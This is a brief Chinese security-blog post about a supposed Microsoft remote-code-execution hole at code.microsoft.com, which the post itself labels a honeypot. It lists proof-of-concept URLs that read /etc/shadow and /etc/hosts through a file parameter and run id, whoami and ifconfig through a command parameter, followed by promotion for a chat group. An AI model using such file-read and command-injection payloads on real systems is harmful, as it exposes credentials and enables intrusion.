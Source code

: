#  新瓜速递--微软最新RCE?!   
原创 zyxa  众亦信安   2024-04-26 00:00  
  
**文章导读**  
  
**声明：**  
文中涉及到的技术和工具，仅供学习使用，禁止从事任何非法活动，如因此造成的直接或间接损失，均由使用者自行承担责任。  
  
  
**众亦信安，中意你啊！**  
  
  
  
  
**点不了吃亏，点不了上当，设置星标，方能无恙！**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/rl85Sib8ZkaCYxCJKub5bG3w60vxgqrckQwMSg9YrFiaR3PqibBiaZ5YNFIIrAlBTs5l24ysvq3mDX1kYWwvHaeBzA/640?wx_fmt=other&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
  
  
漏洞？-【蜜罐】  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/rl85Sib8ZkaBK489OtZenSOBBf6LY0hTTlHh6oUDYqnKR4ib3tzcNibSn7hS4maBtRRUg9luDicGwu3A3q7zs3ia2Qw/640?wx_fmt=png&from=appmsg "")  
  
poc：  
```
http://code.microsoft.com/wp-content/plugins/wechat-broadcast/wechat/Image.php?url=/etc/shadow
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/rl85Sib8ZkaBK489OtZenSOBBf6LY0hTTrwzClNPcUY0NVWqCxP033PPdaV5R55vMHMaEGVEkicF9NJXcuB93wtA/640?wx_fmt=png&from=appmsg "")  
           
  
![](https://mmbiz.qpic.cn/mmbiz_png/rl85Sib8ZkaBK489OtZenSOBBf6LY0hTTNyW7ficxzWc0FtibLFdsibTLaeeetlTI9PV3NRsicSRf61Fa7dHxyUJWsQ/640?wx_fmt=png&from=appmsg "")  
  
    poc:  
```
http://code.microsoft.com/pages/systemcall.php?command=id
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/rl85Sib8ZkaBK489OtZenSOBBf6LY0hTTl9gibickDBVNtJpvsAjbSo84asYBBTFleaNk55CNrLCgibwVTb25FnnMg/640?wx_fmt=png&from=appmsg "")  
  
  
    poc:  
```
http://code.microsoft.com/pages/systemcall.php?command=whoami
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/rl85Sib8ZkaBK489OtZenSOBBf6LY0hTTDad3vqmSr9y7Fcz4wcf1iaIB5kHiaQQYZLlr5eMzF2N8ROPcrQmibPo7g/640?wx_fmt=png&from=appmsg "")  
  
    poc:  
```
 http://code.microsoft.com/pages/systemcall.php?command=ifconfig
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/rl85Sib8ZkaBK489OtZenSOBBf6LY0hTTyEUCvOw8IOcSffSXD3ibcleNF4khptytr28KyLIaoXHNdvSOSatqmuQ/640?wx_fmt=png&from=appmsg "")  
  
    poc:  
```
 http://code.microsoft.com/wp-content/plugins/wechat-broadcast/wechat/Image.php?url=/etc/hosts
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/rl85Sib8ZkaBK489OtZenSOBBf6LY0hTTo7iaUqoZwfD2rjbnhV5ClibQ1icfIrA0ItTbdLe0Ino29cQNSBVNSxIsw/640?wx_fmt=png&from=appmsg "")  
  
  
****  
  
往这里看  
  
  
  
  
  
  
点点关注不迷路，不定时持续分享各种干货。  
可关注公众号回复"进群"，也可添加管理微信拉你入群。  
  
顺便应师傅们要求弄个24年hvv沟通交流群，群人数满了可以添加下方群主微信回复hvv交流。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/rl85Sib8ZkaBK489OtZenSOBBf6LY0hTTCfHWFvyTQeSWCqZGSsvclsqZo9AFJiciaACwKClterzwbG9aSZuJJicMA/640?wx_fmt=other&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
  
**另外有想去hvv的师傅可以加v**  
  
****  
